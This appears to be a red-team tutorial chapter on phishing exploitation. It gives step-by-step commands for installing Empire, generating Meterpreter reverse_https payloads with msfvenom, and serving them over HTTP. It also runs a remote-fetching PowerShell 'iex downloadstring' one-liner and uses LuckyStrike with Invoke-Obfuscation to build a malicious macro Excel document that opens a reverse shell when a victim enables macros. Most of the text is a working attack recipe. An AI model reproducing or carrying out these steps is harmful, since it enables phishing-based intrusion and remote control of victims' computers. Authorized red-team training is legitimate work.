 # Exploitation

Now we are in the exploitation phase and all the tools list that are being used and their techniques are documented in the MITRE attack website which is linked below.

{% embed url="https://attack.mitre.org/" %}
It has all the techniques from exploitation to persistence to [Privilege Escalation](https://attack.mitre.org/tactics/TA0004)
{% endembed %}

So our phishing scenario will be :

1- Generate malicious document using luckystrike&#x20;

2- Send to the victim

3- Victim will open the document

4- C2 server will receive reverse connection through empire/metasploit



Now firstly we will install empire server in our kali linux so for that we will use the following command.

```
// sudo apt update
// sudo apt install -y powershell-empire starkiller
```

After that the installation is complete you can start the server by

```
// sudo powershell-empire server 
                and on the other tab type
// sudo powershell-empire client
```

After it will connect to the localhost you can also use the gui version of the starkiller in the browser.Simply open the localhost which is your machine ip on port 1337. It will ask you for credentials the default are **USERNAME::empireadmin  PASSWORD::password123.**

<figure><img src=".gitbook/assets/Windows Red Team Exploitation Techniques _ Red Team Series 3-13 - YouTube - Brave 05-07-2023 00_36_51.png" alt=""><figcaption><p>Login Screen</p></figcaption></figure>

After you log in you will be redirected to the home page.

<figure><img src=".gitbook/assets/Windows Red Team Exploitation Techniques _ Red Team Series 3-13 - YouTube - Brave 05-07-2023 00_36_59.png" alt=""><figcaption></figcaption></figure>

After that the first step is to start the csharp server by clicking on the **plugin tab > csharp server  > click start.**

Now click on listener **select http as type and select port 1335** and leave all as it is and click on submit.

Now go on **stagers > create > type windows/csharp\_exe > select listener http and you can also change the outfile name such as empire.exe > click submit, and download the payload.**

Now open terminal and we will be creating a metasploit payload also.

```shell
// msfvenom -p windows/meterpreter/reverse_https LHOST=(your ip) LPORT=8080 -f exe > payload.exe

```

After the payload is created we will set up the msfconsole

<pre class="language-sh" data-line-numbers><code class="lang-sh">msfconsole
use multi/handler
set payload windows/meterpreter/reverse_https
set LHOST (your ip)
set LPORT 8080
<strong>run
</strong></code></pre>

**Save both the payloads in same folder.And start the python server and download both the payloads in the windows machine.**

```
python3 -m http.server 8888
```

Now in the windows machine we will be downloading luckystrike&#x20;

Open powershell in the adminstrator mode and move to desktop and copy & paste the following command&#x20;

{% code fullWidth="true" %}
```powershell
// iex (new-object net.webclient).downloadstring('https://git.io/v7kbp')

```
{% endcode %}

But in order to run it properly download the github repository and extract it and paste it into Documets > WindowsPowerShell > Modules (if modules folder is not there create one)

```
// https://github.com/danielbohannon/Invoke-Obfuscation.git
```

Now open powershell administrator in this folder and then follow the command&#x20;

```powershell
Import-Module ./Invoke-Obfuscation.psd1
Invoke-Obfuscation
```

and now open the luckystrike and it will run with no errors

```powershell
// .\luckstrike.ps1
```

**Now click 2-Catalog options > 1-Add payload to catalog > Title: Meterpreter https > leave all options > click executable in payload type and enter the path where the payload is stored > Now click on Main Menu.**

<figure><img src=".gitbook/assets/Windows Red Team Exploitation Techniques _ Red Team Series 3-13 - YouTube - Brave 05-07-2023 01_51_09.png" alt=""><figcaption></figcaption></figure>

**Now go back choose 99 > select payload options > select the document type xls > and the select the meterpreter payload > choose the infection to certutil.**

<figure><img src=".gitbook/assets/Windows Red Team Exploitation Techniques _ Red Team Series 3-13 - YouTube - Brave 05-07-2023 01_55_13.png" alt=""><figcaption></figcaption></figure>

Now again go back in the main menu.

And click on file options > generate new file > and the file will be successfully created

```
// (Note: You need to install the microsoft office or the luckystrike will not generate the payload) which you find out easily on the internet.
```

Now repeat the same steps as above to generate the second payload and open the payload and in the microsoft excel and enable the macros and you will get the reverse connection to your attacker machine.

<figure><img src=".gitbook/assets/Windows Red Team Exploitation Techniques _ Red Team Series 3-13 - YouTube - Brave 05-07-2023 02_02_26.png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/Windows Red Team Exploitation Techniques _ Red Team Series 3-13 - YouTube - Brave 05-07-2023 02_02_38.png" alt=""><figcaption></figcaption></figure>

You can run shell commands and browse files from the starkiller as well as the msfconsole.

That's all in this chapter we will cover topics and techniques more in the other chapters.
